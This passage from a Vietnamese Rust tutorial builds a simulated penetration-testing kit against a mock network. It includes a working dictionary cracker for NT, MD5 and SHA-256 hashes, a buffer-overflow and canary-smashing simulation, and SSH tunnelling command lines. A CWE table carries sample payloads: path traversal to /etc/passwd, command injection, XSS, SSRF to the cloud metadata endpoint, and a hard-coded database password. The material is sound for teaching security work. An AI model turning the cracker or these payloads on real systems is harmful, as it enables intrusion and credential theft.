        Self { files: HashMap::new(), dirs: HashSet::new() }
    }

    /// Thêm một tệp.
    pub fn add_file(&mut self, path: &str, content: &[u8], mode: u32, owner: &str) -> &mut Self {
        let path_buf = PathBuf::from(path);
        self.files.insert(
            path_buf.clone(),
            MockFile {
                path: path_buf,
                content: content.to_vec(),
                mode,
                owner: owner.to_string(),
                group: owner.to_string(),
                is_symlink: false,
                symlink_target: None,
            },
        );
        self
    }

    /// Thêm một thư mục.
    pub fn add_dir(&mut self, path: &str, mode: u32) -> &mut Self {
        self.dirs.insert(PathBuf::from(path));
        let _ = mode;
        self
    }

    /// Thêm một liên kết tượng.
    pub fn add_symlink(&mut self, path: &str, target: &str) -> &mut Self {
        let path_buf = PathBuf::from(path);
        self.files.insert(
            path_buf.clone(),
            MockFile {
                path: path_buf,
                content: Vec::new(),
                mode: 0o777,
                owner: "root".to_string(),
                group: "root".to_string(),
                is_symlink: true,
                symlink_target: Some(PathBuf::from(target)),
            },
        );
        self
    }

    /// Lấy thông tin một tệp.
    pub fn get(&self, path: &str) -> Option<&MockFile> {
        self.files.get(&PathBuf::from(path))
    }

    /// Tệp có tồn tại không.
    pub fn exists(&self, path: &str) -> bool {
        self.files.contains_key(&PathBuf::from(path)) || self.dirs.contains(&PathBuf::from(path))
    }

    /// Tệp có cờ SUID không.
    pub fn is_suid(&self, path: &str) -> bool {
        self.get(path).map(|f| f.mode & S_IFUID != 0).unwrap_or(false)
    }

    /// Tệp có cờ SGID không.
    pub fn is_sgid(&self, path: &str) -> bool {
        self.get(path).map(|f| f.mode & S_IFGID != 0).unwrap_or(false)
    }

    /// Tệp có quyền ghi cho mọi người không.
    pub fn is_world_writable(&self, path: &str) -> bool {
        self.get(path).map(|f| f.mode & 0o002 != 0).unwrap_or(false)
    }

    /// Người dùng có quyền ghi lên tệp không.
    pub fn is_writable_by(&self, path: &str, user: &str) -> bool {
        let Some(file) = self.get(path) else {
            return false;
        };
        if file.owner == user {
            return file.mode & 0o200 != 0;
        }
        if file.group == user {
            return file.mode & 0o020 != 0;
        }
        file.mode & 0o002 != 0
    }

    /// Danh sách đường dẫn của mọi tệp.
    pub fn path_list(&self) -> Vec<PathBuf> {
        let mut paths: Vec<PathBuf> = self.files.keys().cloned().collect();
        paths.sort();
        paths
    }

    /// Giải mã liên kết tượng một cấp.
    pub fn resolve_symlink(&self, path: &str) -> Option<PathBuf> {
        let file = self.get(path)?;
        file.symlink_target.clone()
    }
}
```

### 4.9. `SshTunnelSimulator` và chuỗi SOCKS

```rust
/// Bộ mô phỏng đường hầm SSH.
#[derive(Debug, Clone, PartialEq)]
pub struct SshTunnelSimulator {
    /// Danh sách đường hầm.
    pub tunnels: Vec<SshTunnel>,
    /// Mã phiên kế tiếp.
    pub next_session_id: u32,
}

impl SshTunnelSimulator {
    /// Tạo bộ mô phỏng rỗng.
    pub fn new() -> Self {
        Self { tunnels: Vec::new(), next_session_id: 1 }
    }

    /// Mở đường hầm chuyển tiếp cổng cục bộ.
    pub fn local_forward(&mut self, listen: SocketAddr, target: SocketAddr) -> u32 {
        self.open(TunnelType::LocalForward, listen, target)
    }

    /// Mở đường hầm chuyển tiếp cổng từ xa.
    pub fn remote_forward(&mut self, listen: SocketAddr, target: SocketAddr) -> u32 {
        self.open(TunnelType::RemoteForward, listen, target)
    }

    /// Mở đường hầm proxy SOCKS động.
    pub fn dynamic_socks(&mut self, listen: SocketAddr) -> u32 {
        self.open(
            TunnelType::DynamicSocks,
            listen,
            SocketAddr::new(Ipv4Addr::UNSPECIFIED.into(), 0),
        )
    }

    /// Mở một đường hầm với loại cho trước.
    fn open(&mut self, tunnel_type: TunnelType, listen: SocketAddr, target: SocketAddr) -> u32 {
        let session_id = self.next_session_id;
        self.next_session_id += 1;
        self.tunnels.push(SshTunnel {
            tunnel_type,
            listen_addr: listen,
            target_addr: target,
            session_id,
            active: true,
        });
        session_id
    }

    /// Đóng một đường hầm theo mã phiên.
    pub fn close_tunnel(&mut self, session_id: u32) -> bool {
        if let Some(tunnel) = self.tunnels.iter_mut().find(|t| t.session_id == session_id) {
            tunnel.active = false;
            return true;
        }
        false
    }

    /// Số đường hầm còn hoạt động.
    pub fn active_tunnels(&self) -> usize {
        self.tunnels.iter().filter(|t| t.active).count()
    }

    /// Mô tả trạng thái các đường hầm.
    pub fn describe(&self) -> String {
        let mut out = String::new();
        for tunnel in &self.tunnels {
            out.push_str(&format!(
                "#{} {:?} {} -> {} [{}]\n",
                tunnel.session_id,
                tunnel.tunnel_type,
                tunnel.listen_addr,
                tunnel.target_addr,
                if tunnel.active { "active" } else { "closed" }
            ));
        }
        out
    }
}

impl Default for SshTunnelSimulator {
    fn default() -> Self {
        Self::new()
    }
}

/// Sinh dòng lệnh `ssh` tương ứng với một đường hầm.
pub fn ssh_command_line(tunnel: &SshTunnel) -> String {
    let listen_port = tunnel.listen_addr.port();
    match tunnel.tunnel_type {
        TunnelType::LocalForward => format!(
            "ssh -N -L {listen_port}:{}:{} user@jump",
            tunnel.target_addr.ip(),
            tunnel.target_addr.port()
        ),
        TunnelType::RemoteForward => format!(
            "ssh -N -R {listen_port}:{}:{} user@jump",
            tunnel.target_addr.ip(),
            tunnel.target_addr.port()
        ),
        TunnelType::DynamicSocks => format!("ssh -N -D {listen_port} user@jump"),
    }
}

/// Chuỗi relay SOCKS nhiều lớp.
#[derive(Debug, Clone, PartialEq)]
pub struct SocksRelayChain {
    /// Danh sách các lớp trung gian.
    pub hops: Vec<SocketAddr>,
}

impl SocksRelayChain {
    /// Tạo chuỗi relay rỗng.
    pub fn new() -> Self {
        Self { hops: Vec::new() }
    }

    /// Thêm một lớp trung gian.
    pub fn add_hop(&mut self, addr: SocketAddr) -> &mut Self {
        self.hops.push(addr);
        self
    }

    /// Số lớp trung gian.
    pub fn hop_count(&self) -> usize {
        self.hops.len()
    }

    /// Dựng đường đi mô phỏng từ client tới đích.
    pub fn resolve_path(&self, target: &str, port: u16) -> Vec<String> {
        let mut path = vec!["client".to_string()];
        for hop in &self.hops {
            path.push(format!("hop {}", hop));
        }
        path.push(format!("{target}:{port}"));
        path
    }

    /// Tổng độ trễ của chuỗi (giá trị truyền vào theo thứ tự các lớp).
    pub fn total_latency_ms(&self, hop_latencies: &[f64]) -> f64 {
        hop_latencies.iter().sum()
    }
}
```

### 4.10. Bài test `test_38` — bác bỏ lời khai giả

Bài test `test_38` (bác bỏ lời khai giả) là **linh hồn** của chương này:

```rust
    #[test]
    fn test_38_ground_truth_verifier_rejects_false_claim() {
        let verifier = GroundTruthVerifier::new("root");
        let mut shell = MockShell::as_user("www");
        shell.history.push((
            "echo 'Đã leo thang lên root thành công'".to_string(),
            "Đã leo thang lên root thành công".to_string(),
        ));
        let result = verifier.verify(&shell);
        assert!(!result.verified);
        assert!(result.details.contains("BÁC BỎ"));
        assert_eq!(result.proof, "whoami -> www");
    }
```

### 4.11. Bài test `test_52` — mọi phát hiện đều có PoC

Bài test `test_52` bảo đảm mọi phát hiện đều có PoC:

```rust
    #[test]
    fn test_52_every_chain_finding_has_a_verified_proof() {
        let mut runner = ExploitChainRunner::new(MockNetwork::standard_topology());
        let result = runner.run();
        assert!(!result.findings.is_empty());
        assert_eq!(result.findings.len(), result.proofs.len());
        for (index, proof) in result.proofs.iter().enumerate() {
            assert!(proof.verify(), "PoC {} không hợp lệ", index);
            assert_eq!(proof.proof_hash().len(), 64);
            assert!(!result.findings[index].title.is_empty());
            assert!(!result.findings[index].remediation.is_empty());
        }
        assert!(result.compromised_hosts.len() >= 3);
    }
```


### 4.12. `VulnerableBuffer` — Mô phỏng tràn bộ đệm và phá canary

```rust
impl VulnerableBuffer {
    /// Tạo bộ đệm với canary và địa chỉ trả về mặc định.
    pub fn new() -> Self {
        Self {
            buffer: [0u8; BUFFER_SIZE],
            canary_value: 0x0000_DEAD_BEEF_CAFE_1234,
            saved_rbp: 0x0000_0000_0000_0000,
            return_address: 0x0040_1000,
        }
    }

    /// Ghi dữ liệu vào bộ đệm; trả `true` nếu vừa khít, `false` nếu tràn.
    pub fn write_input(&mut self, data: &[u8]) -> bool {
        let len = data.len();
        let copy = len.min(BUFFER_SIZE);
        self.buffer[..copy].copy_from_slice(&data[..copy]);
        if len <= BUFFER_SIZE {
            return true;
        }

        let overflow = &data[BUFFER_SIZE..];
        if overflow.len() >= 8 {
            let mut canary = [0u8; 8];
            canary.copy_from_slice(&overflow[..8]);
            self.canary_value = u64::from_le_bytes(canary);
        }
        if overflow.len() >= 16 {
            let mut rbp = [0u8; 8];
            rbp.copy_from_slice(&overflow[8..16]);
            self.saved_rbp = u64::from_le_bytes(rbp);
        }
        if overflow.len() >= 24 {
            let mut ret = [0u8; 8];
            ret.copy_from_slice(&overflow[16..24]);
            self.return_address = u64::from_le_bytes(ret);
        }
        false
    }

    /// Canary còn nguyên hay không.
    pub fn is_canary_intact(&self) -> bool {
        self.canary_value == 0x0000_DEAD_BEEF_CAFE_1234
    }

    /// Địa chỉ trả về đã bị ghi đè hay chưa.
```

### 4.13. NT hash và bộ bẻ khoá

```rust
/// Tính NT hash của một mật khẩu (MD4 trên mã hoá UTF-16LE theo MS-NLMP).
pub fn nt_hash(password: &str) -> [u8; 16] {
    let mut utf16 = Vec::with_capacity(password.len() * 2);
    for unit in password.encode_utf16() {
        utf16.extend_from_slice(&unit.to_le_bytes());
    }
    md4(&utf16)
}

/// NT hash ở dạng hex viết thường.
pub fn nt_hash_hex(password: &str) -> String {
    to_hex(&nt_hash(password))
}

/// MD5 ở dạng hex viết thường.
pub fn md5_hex(data: &[u8]) -> String {
    to_hex(&md5(data))
}

/// Thuật toán băm được hỗ trợ khi bẻ khoá.
#[derive(Debug, Clone, Copy, PartialEq, Eq)]
pub enum HashAlgorithm {
    /// MD5 (RFC 1321).
    Md5,
    /// NT hash (MD4/UTF-16LE).
    NtHash,
    /// SHA-256 (FIPS 180-4).
    Sha256,
}

impl HashAlgorithm {
    /// Tính mã băm của một mật khẩu theo thuật toán tương ứng (dạng hex).
    pub fn hash(&self, candidate: &str) -> String {
        match self {
            HashAlgorithm::Md5 => md5_hex(candidate.as_bytes()),
            HashAlgorithm::NtHash => nt_hash_hex(candidate),
            HashAlgorithm::Sha256 => to_hex(&sha256(candidate.as_bytes())),
        }
    }
}

/// Bộ bẻ khoá mật khẩu bằng từ điển.
#[derive(Debug, Clone, PartialEq)]
pub struct HashCracker {
    /// Từ điển mật khẩu ứng viên.
    pub wordlist: Vec<String>,
    /// Thuật toán băm đang nhắm tới.
    pub algorithm: HashAlgorithm,
}

impl HashCracker {
    /// Tạo bộ bẻ khoá với từ điển cho trước (mặc định NT hash).
    pub fn new(wordlist: Vec<String>) -> Self {
        Self { wordlist, algorithm: HashAlgorithm::NtHash }
    }

    /// Tạo bộ bẻ khoá với thuật toán chỉ định.
    pub fn with_algorithm(wordlist: Vec<String>, algorithm: HashAlgorithm) -> Self {
        Self { wordlist, algorithm }
    }

    /// Tìm mật khẩu tương ứng với mã băm hex đích.
    pub fn crack(&self, target: &str) -> Option<String> {
        let target = target.trim().to_ascii_lowercase();
        for candidate in &self.wordlist {
            if self.algorithm.hash(candidate) == target {
                return Some(candidate.clone());
            }
        }
        None
    }

    /// Số phép thử đã thực hiện.
    pub fn attempts(&self) -> usize {
        self.wordlist.len()
```

### 4.14. `GroundTruthVerifier` — Bác bỏ lời khai giả

```rust
    /// Kiểm chứng trạng thái hiện tại của một shell.
    ///
    /// Bất biến cốt lõi: **không** tin lời khai của tác nhân. Hệ thống dùng bằng chứng thực thi
    /// `whoami` (nếu có) và đối chiếu với trạng thái quyền hạn thực tế của shell.
    pub fn verify(&self, shell: &MockShell) -> VerificationResult {
        let whoami_evidence = shell
            .history
            .iter()
            .rev()
            .find(|(cmd, _)| cmd.trim() == "whoami")
            .map(|(_, out)| out.clone());

        let actual_user = whoami_evidence.clone().unwrap_or_else(|| shell.current_user.clone());
        let user_ok = actual_user.trim() == self.expected_user;
        let privilege_ok = if self.expected_user == "root" { shell.is_root } else { true };
        let verified = user_ok && privilege_ok;

        let method = if whoami_evidence.is_some() {
            "thực thi lệnh `whoami` và đối chiếu với kỳ vọng"
        } else {
            "đối chiếu trạng thái phiên của shell với kỳ vọng"
        };

        let details = if verified {
            format!(
                "Bằng chứng độc lập xác nhận người dùng hiện tại là `{}` — lời khai của tác nhân được xác nhận.",
                self.expected_user
            )
        } else {
            format!(
                "Lời khai của tác nhân bị BÁC BỎ: kỳ vọng `{}` nhưng bằng chứng thực thi cho thấy `{}`.",
                self.expected_user,
                actual_user.trim()
            )
        };

        VerificationResult {
            verified,
            proof: format!("whoami -> {}", actual_user.trim()),
            method: method.to_string(),
            details,
        }
    }
```

### 4.15. `StaticVulnScanner` — 14 luật heuristic

```rust
impl StaticVulnScanner {
    /// Tạo bộ quét rỗng.
    pub fn new() -> Self {
        Self { findings: Vec::new() }
    }

    /// Danh sách luật: `(định danh, CWE, mẫu)`.
    pub fn rules() -> Vec<(&'static str, &'static str, &'static str)> {
        STATIC_RULES.iter().map(|r| (r.id, r.cwe, r.pattern)).collect()
    }

    /// Quét một đoạn mã nguồn và trả về các phát hiện.
    pub fn scan(&mut self, code: &str) -> Vec<StaticFinding> {
        let mut out = Vec::new();
        for (index, line) in code.lines().enumerate() {
            let trimmed = line.trim();
            if trimmed.is_empty() || trimmed.starts_with("//") {
                continue;
            }
            for rule in STATIC_RULES {
                if trimmed.contains(rule.pattern) {
                    out.push(StaticFinding {
                        line: index + 1,
                        rule: rule.id.to_string(),
                        cwe: rule.cwe.to_string(),
                        severity: rule.severity,
                        snippet: trimmed.chars().take(140).collect(),
                        message: rule.message.to_string(),
                    });
                }
            }
        }
        self.findings.extend(out.iter().cloned());
        out
    }

    /// Quét một tệp trên đĩa (trả về rỗng nếu không đọc được).
    pub fn scan_file(&mut self, path: &str) -> Vec<StaticFinding> {
        match fs::read_to_string(path) {
            Ok(content) => self.scan(&content),
            Err(_) => Vec::new(),
        }
    }

    /// Số loại luật khác nhau đã từng khớp.
    pub fn distinct_rules(&self) -> usize {
        let mut rules: Vec<&str> = self.findings.iter().map(|f| f.rule.as_str()).collect();
        rules.sort_unstable();
        rules.dedup();
        rules.len()
    }
```

### 4.16. `VulnDatabase` — Danh mục CWE chuẩn OSCP

Bảng được khai báo với `#[rustfmt::skip]` để mỗi mục nằm gọn trên **một dòng**, giúp đọc và
đối chiếu trực tiếp với bảng tra cứu CWE:

```rust
        #[rustfmt::skip]
        const ROWS: &[(&str, &str, f64, &str, &str)] = &[
            ("CWE-89", "SQL Injection", 9.8, "Dùng truy vấn tham số hóa (prepared statement), không nối chuỗi.", "SELECT * FROM accounts WHERE id = {id}"),
            ("CWE-78", "OS Command Injection", 8.8, "Tránh truyền chuỗi vào shell; dùng API gọi tiến trình với danh sách tham số.", "cmd.exe /c {input}"),
            ("CWE-79", "Cross-Site Scripting (Reflected)", 6.1, "Mã hoá đầu ra theo ngữ cảnh và dùng CSP.", "<script>{payload}</script>"),
            ("CWE-22", "Path Traversal", 7.5, "Chuẩn hoá đường dẫn và kiểm tra nó nằm trong thư mục gốc.", "GET /index.php?page=../../etc/passwd"),
            ("CWE-798", "Use of Hard-coded Credentials", 9.8, "Đưa bí mật vào kho bí mật, xoay vòng định kỳ.", "mysql -u svc_backup -pBackup2024"),
            ("CWE-327", "Use of a Broken or Risky Cryptographic Algorithm", 7.5, "Dùng thuật toán đã được phân tích (AES-GCM, ChaCha20-Poly1305).", "hash = md5(password)"),
            ("CWE-306", "Missing Authentication for Critical Function", 8.1, "Yêu cầu xác thực trước mọi thao tác quản trị.", "curl http://target/admin/export"),
            ("CWE-434", "Unrestricted Upload of File with Dangerous Type", 8.6, "Kiểm tra magic bytes, lưu ngoài web root, cấm thực thi tệp tải lên.", "upload shell.php.jpg"),
            ("CWE-862", "Missing Authorization", 8.1, "Kiểm tra quyền của người dùng ở mọi endpoint.", "GET /api/admin/users"),
            ("CWE-502", "Deserialization of Untrusted Data", 8.1, "Không deserialize dữ liệu không tin cậy; dùng định dạng dữ liệu an toàn.", "python -c 'import pickle;pickle.loads(data)'"),
            ("CWE-918", "Server-Side Request Forgery (SSRF)", 8.6, "Danh sách trắng đích ra ngoài và chặn địa chỉ nội bộ/metadata.", "curl http://169.254.169.254/latest/meta-data/"),
            ("CWE-94", "Improper Control of Generation of Code", 9.8, "Không sinh mã từ đầu vào người dùng; dùng thư viện thay vì `eval`.", "eval(user_input)"),
            // ... (còn 52 mục nữa trong toàn bảng)
        ];
```

### 4.17. `ExploitChainRunner` — Điều phối 6 giai đoạn và cổng `register`

```rust
    /// Chạy trọn chuỗi khai thác và trả về kết quả tổng hợp.
    pub fn run(&mut self) -> ExploitChainResult {
        self.findings.clear();
        self.proofs.clear();

        let mut steps: Vec<ChainStep> = Vec::new();
        steps.extend(self.phase_recon());
        steps.extend(self.phase_web());
        steps.extend(self.phase_binary());
        steps.extend(self.phase_credentials());
        steps.extend(self.phase_privesc());
        steps.extend(self.phase_pivot());

        let finding_count = self.findings.len();
        let proof_count = self.proofs.len();
        steps.push(ChainStep {
            phase: Phase::Report,
            target: "10.10.0.0/16".to_string(),
            action: "Tổng hợp báo cáo kiểm thử xâm nhập".to_string(),
            success: finding_count > 0 && finding_count == proof_count,
            evidence: format!("{finding_count} phát hiện / {proof_count} PoC đã xác minh"),
            duration_ms: 6,
        });

        let total_duration_ms: u64 = steps.iter().map(|s| s.duration_ms).sum();
        let compromised_hosts: Vec<Ipv4Addr> =
            self.network.hosts.iter().filter(|h| h.is_pwned).map(|h| h.ip).collect();
        let success = steps.iter().all(|s| s.success)
            && !self.findings.is_empty()
            && self.proofs.iter().all(|p| p.verify());

        ExploitChainResult {
            steps,
            compromised_hosts,
            findings: self.findings.clone(),
            proofs: self.proofs.clone(),
            total_duration_ms,
            success,
        }
    }

    /// Ghi nhận một lỗ hổng **chỉ khi** bằng chứng khai thác hợp lệ.
    fn register(&mut self, vuln: Vulnerability, proof: ProofByExploitation) -> bool {
        if !proof.verify() {
            return false;
        }
        self.findings.push(vuln);
        self.proofs.push(proof);
        true
    }

    /// Lấy mẫu lỗ hổng đã cài sẵn trong danh mục của máy chủ.
```

Cổng kiểm soát nằm ngay trong `register()`: nếu `proof.verify()` trả `false`, phát hiện **bị
loại bỏ hoàn toàn** — kể cả khi nó đã được mô tả rất đẹp trong danh mục.

### 4.18. `PentestReportGenerator` — Báo cáo Markdown OSCP

```rust
        // ---- 3. Danh sách phát hiện ----
        out.push_str("# Findings\n\n");
        out.push_str("| ID | Tiêu đề | Mức độ | CVSS | CWE | Đích | PoC |\n");
        out.push_str("|---|---|---|---|---|---|---|\n");
        for (index, vuln) in result.findings.iter().enumerate() {
            let proof_state = match result.proofs.get(index) {
                Some(proof) if proof.verify() => "Đã xác minh",
                Some(_) => "Chưa xác minh",
                None => "Thiếu PoC",
            };
            out.push_str(&format!(
                "| {} | {} | {} | {:.1} | {} | `{}:{}` | {} |\n",
                vuln.id,
                vuln.title,
                vuln.severity.label(),
                vuln.cvss,
                vuln.cwe,
                vuln.target_ip,
                vuln.target_port,
                proof_state
            ));
        }
        out.push('\n');

        for (index, vuln) in result.findings.iter().enumerate() {
            out.push_str(&format!("## {} — {}\n\n", vuln.id, vuln.title));
            out.push_str(&format!(
                "- **Mức độ:** {} (CVSS {:.1})\n- **CWE:** {}\n- **Đích:** `{}:{}`\n\n",
                vuln.severity.label(),
                vuln.cvss,
                vuln.cwe,
                vuln.target_ip,
                vuln.target_port
            ));
            out.push_str(&format!("{}\n\n", vuln.description));

            out.push_str("### Proof of Exploitation\n\n");
            if let Some(proof) = result.proofs.get(index) {
                out.push_str("**Payload đã gửi:**\n\n```text\n");
                out.push_str(&format!("{}\n", proof.proof.payload_used));
                out.push_str("```\n\n**Phản hồi nhận được:**\n\n```text\n");
                out.push_str(&format!("{}\n", proof.proof.response_received));
                out.push_str("```\n\n");
                out.push_str(&format!(
                    "- **Tác động đã chứng minh:** {}\n- **Vân tay bằng chứng (SHA-256):** `{}`\n\n",
                    if proof.proof.impact_demonstrated { "Có" } else { "Không" },
                    proof.proof_hash()
                ));
            } else {
                out.push_str("_Không tìm thấy bằng chứng khai thác tương ứbo._\n\n");
            }

            out.push_str("### Remediation\n\n");
            out.push_str(&format!("{}\n\n", vuln.remediation));
            out.push_str("---\n\n");
        }
```

### 4.19. `RedTeamExploitKit::run_full_assessment` — Tính tỉ lệ báo động giả

```rust
    /// Chạy đánh giá toàn diện: chuỗi khai thác + quét tĩnh + sinh báo cáo.
    pub fn run_full_assessment(&mut self) -> RedTeamAssessment {
        let result = self.runner.run();
        let static_findings = self.scanner.scan(VULNERABLE_SAMPLE_CODE);
        let report_markdown = self.reporter.generate(&result);

        let total = result.findings.len();
        let unproven = result
            .findings
            .iter()
            .enumerate()
            .filter(|(index, _)| match result.proofs.get(*index) {
                Some(proof) => !proof.verify(),
                None => true,
            })
            .count();
        let false_positive_rate = if total == 0 { 0.0 } else { unproven as f64 / total as f64 };

        RedTeamAssessment { result, static_findings, report_markdown, false_positive_rate }
    }
```

### 4.20. `main()` — Bản chạy mẫu end-to-end

```rust
fn main() {
    println!("=== CHƯƠNG 104: ĐẠI DỰ ÁN TÍCH HỢP I — BỘ CÔNG CỤ RED TEAM KHAI THÁC TOÀN DIỆN ===");
    println!("100% Rust 2024 thuần std | Proof-by-Exploitation | false_positive_rate = 0.0\n");

    // ---- 1. Kiểm thử hạt nhân mã băm ----
    println!("1. Kiểm chứng hạt nhân mã băm tự cài:");
    println!("   - SHA-256(\"abc\") = {}", to_hex(&sha256(b"abc")));
    println!("   - MD5(\"abc\")    = {}", md5_hex(b"abc"));
    println!("   - NT hash(\"svc\") = {}", nt_hash_hex("svc"));
    println!("   - Base64URL round-trip: {}", {
        let raw = b"learn-rs red team";
        encode_base64url(raw)
            == encode_base64url(&decode_base64url(&encode_base64url(raw)).unwrap_or_default())
    });

    // ---- 2. Trinh sát ----
    println!("\n2. Trinh sát mạng nội bộ (MockNetwork):");
    let network = MockNetwork::standard_topology();
    print!("{}", network.to_text_map());
    let mut recon = ReconEngine::new();
    let map = recon.map_network(&network);
    println!(
        "   -> Bản đồ mạng: {} máy chủ, {} cổng đang mở",
        map.host_count(),
        map.total_open_ports()
    );

    // ---- 3. Chuỗi khai thác 6 giai đoạn ----
    println!("\n3. Chạy chuỗi khai thác end-to-end:");
    let mut kit = RedTeamExploitKit::new();
    let assessment = kit.run_full_assessment();

    let mut current_phase: Option<Phase> = None;
    for step in &assessment.result.steps {
        if current_phase != Some(step.phase) {
            current_phase = Some(step.phase);
            println!("   [{}]", step.phase.label());
        }
        println!(
            "     - {} | {} | {} ({} ms)",
            step.target, step.action, step.success, step.duration_ms
        );
        println!("       {}", step.evidence);
    }
    println!("   -> Tổng thời gian mô phỏng: {} ms", assessment.result.total_duration_ms);

    // ---- 4. Phát hiện & chứng minh khai thác ----
```

Kết quả thực tế của lần chạy mẫu (rút gọn):

```text
=== CHƯƠNG 104: ĐẠI DỰ ÁN TÍCH HỢP I — BỘ CÔNG CỤ RED TEAM KHAI THÁC TOÀN DIỆN ===
100% Rust 2024 thuần std | Proof-by-Exploitation | false_positive_rate = 0.0

1. Kiểm chứng hạt nhân mã băm tự cài:
   - SHA-256("abc") = ba7816bf8f01cfea414140de5dae2223b00361a396177a9cb410ff61f20015ad
   - MD5("abc")    = 900150983cd24fb0d6963f7d28e17f72
   - NT hash("svc") = 735c90be3f0ac2005d50fe146aaad201
   - Base64URL round-trip: true

2. Trinh sát mạng nội bộ (MockNetwork):
     10.10.10.5  web01     Linux 5.15 Ubuntu (nginx)     [ok]
    10.10.20.10  db01      Linux 5.15 Ubuntu (mysql)     [ok]
    10.10.30.10  dc01      Windows Server 2019           [ok]
    10.10.40.10  ws01      Windows 10 Pro                [ok]
    10.10.50.10  fs01      Windows Server 2016           [ok]
   -> Bản đồ mạng: 5 máy chủ, 11 cổng đang mở

3. Chạy chuỗi khai thác end-to-end:
   [Trinh sát] ... [Khai thác Web] ... [Khai thác Nhị phân]
   [Tấn công Xác thực] ... [Leo thang Đặc quyền] ... [Xoay chiều Mạng] ... [Báo cáo]
   -> Tổng thời gian mô phỏng: 917 ms

4. Phát hiện kèm Proof of Exploitation:
   - [ĐÃ XÁC MINH] VULN-001 | SQL Injection tại tham số id | CVSS 9.8 | CWE-89 | Nghiêm trọng
   - [ĐÃ XÁC MINH] VULN-002 | Local File Inclusion qua tham số file | CVSS 7.5 | CWE-22 | Cao
   - [ĐÃ XÁC MINH] VULN-003 | Tải lên tệp không kiểm tra phần mở rộng | CVSS 8.6 | CWE-434 | Cao
   - [ĐÃ XÁC MINH] VULN-004 | JWT HS256 ký bằng khoá yếu | CVSS 7.4 | CWE-321 | Cao
   - [ĐÃ XÁC MINH] VULN-005 | Tài khoản dịch vụ dùng mật khẩu mặc định | CVSS 9.8 | CWE-798 | Nghiêm trọng
   - [ĐÃ XÁC MINH] VULN-006 | Nhị phân SUID cho phép leo thang đặc quyền | CVSS 7.8 | CWE-269 | Cao
   - [ĐÃ XÁC MINH] VULN-007 | Tin cậy quá rộng khi xoay chiều qua DC | CVSS 6.5 | CWE-284 | Trung bình
   - [ĐÃ XÁC MINH] VULN-008 | Tràn bộ đệm trong daemon FTP tuần tự | CVSS 8.1 | CWE-120 | Cao

5. Chỉ số chất lượng phát hiện:
   -> Tỉ lệ báo động giả (false positive rate) = 0
   -> Máy chủ bị chiếm quyền: 4/5
   -> Chuỗi khai thác thành công: true

6. Bộ quét tĩnh & cơ sở dữ liệu lỗ hổng:
   -> Quét mẫu mã lỗ hổng: 15 phát hiện trên 14 luật khác nhau
   -> Cơ sở dữ liệu lỗ hổng: 64 mục CWE
```

---

## 5. Bảng tra cứu lỗi biên dịch thường gặp

| Lỗi / Triệu chứng | Nguyên nhân | Cách sửa |
|---|---|---|
| `error[E0599]: no method named 'x' found for struct 'Y'` dù hàm **có thật** trong `impl` | Sai chính tả tên hàm ở **call site** (ví dụ `with_vulnerations` vs `with_vulnerabilities`) — `rustc` chỉ gợi ý “có hàm gần giống” nhưng không nêu lỗi chính tả | Tìm & thay thế toàn bộ chuỗi gọi hàm; `grep -n "tên_hàm" src/main.rs` để đối chiếu cả định nghĩa lẫn nơi gọi |
| `assertion failed: left: "93007ffb...", right: "ba7816bf..."` (SHA-256) | Ghi sai **hằng số K** — ví dụ `0x0fc19dc0` thay vì `0x0fc19dc6` | So từng hằng với bảng chuẩn FIPS 180-4; luôn kiểm thử bằng vector `"abc"` và chuỗi rỗng |
| `assertion failed: md4("") != 31d6cfe0...` | Dùng **sai hàm F** của MD4: `F(X,Y,Z) = YZ ∨ ¬Y·X` (công thức MD5) thay vì `F(X,Y,Z) = XY ∨ ¬X·Z` | Sửa theo RFC 1320 §3.4; kiểm thử bằng bộ vector chính thức của RFC |
| `md4("abc")` sai dù hàm F đã đúng | Sai **thứ tự chỉ số X** ở vòng 3: phải là $(0,8,4,12) \to (2,10,6,14) \to (1,9,5,13) \to (3,11,7,15)$ | Đối chiếu bảng lệnh vòng 3 trong RFC 1320, không dùng trực giác “$i, i{+}8, i{+}4, i{+}12$” |
| `error: this function has too many arguments (8/7)` | Hàm `make_vuln` có 8 tham số | Gom tham số vào một struct `VulnSpec` (như chương này đã làm) |
| `error: digits of hex literal not in groups of equal size` | `clippy::unusual_byte_groupings` với `0x00DEAD_BEEF_CAFE_1234` | Viết `0x0000_DEAD_BEEF_CAFE_1234` (chia đều 4 chữ số hex) |
| `error: manual implementation of '.is_multiple_of()'` | `clippy::manual_is_multiple_of` với `len % 2 != 0` | Dùng `!hex.len().is_multiple_of(2)` |
| `error[E0277]: the trait bound 'X: Clone' is not satisfied` khi gọi `.to_vec()` trên mảng | Mảng `[T; N]` chỉ có `IntoIterator` theo giá trị khi `T: Sized`; `to_vec()` yêu cầu `T: Clone` | Dùng `Vec::from(arr)` hoặc `.iter().cloned().collect()` |
| `error[E0599]: no method ...` dù chữ ký có `impl IntoIterator<Item = T>` | Ràng buộc trait của tham số `impl Trait` **không được suy diễn** khi truyền mảng hằng `const` | Truyền `&ARR` cho tham số `&[T]`, hoặc dùng `Vec<T>` |
| `error[E0446]: private type in public interface` | Hàm `pub` lộ kiểu `struct` không `pub` | Khai báo kiểu đó `pub` hoặc hạ tính hiển thị của hàm xuống `pub(crate)` |
| Báo cáo Markdown thiếu mục `### Proof of Exploitation` | Vòng lặp sinh báo cáo không ghép đúng chỉ số giữa `findings` và `proofs` | Duyệt `enumerate()` và dùng `result.proofs.get(index)`; kiểm thử bằng `test_53` |
| `false_positive_rate` khác `0.0` | Có phát hiện được đẩy vào `findings` mà không có PoC tương ứng | Chỉ ghi vào qua `register()`; tuyệt đối không `push` trực tiếp vào `findings` |
| Bộ quét tĩnh báo **0** phát hiện trên mã mẫu | Mẫu đặt trong hằng `const` bị `rustfmt` tách dòng làm mất chuỗi `"SELECT ` | Dùng `#[rustfmt::skip]` cho hằng chứa mẫu, hoặc `raw string` `r#"..."#` |
| `cargo fmt --check` báo khác ở chỗ khác trong workspace | Đặt `rustfmt.toml` ở **thư mục crate** (`code/ch104/rustfmt.toml`) để chỉ áp dụng cho crate này | Kiểm tra `cargo fmt --manifest-path code/Cargo.toml --all --check` để chắc chắn không ảnh hưởng crate khác |
| `error[E0599]` xuất hiện *ngay sau khi* sửa file bằng script | Script thay thế chuỗi đã tạo ra tên hàm sai chính tả ở nhiều nơi | `grep` lại toàn bộ nơi gọi sau mỗi lần thay thế hàng loạt |

---

## 6. Tóm tắt chương & Bài tập rèn luyện

### 6.1. Tóm tắt Chương 104

1. **Một cổng kiểm soát, một sự thật**: toàn bộ chương được xoay quanh hàm `register()` của
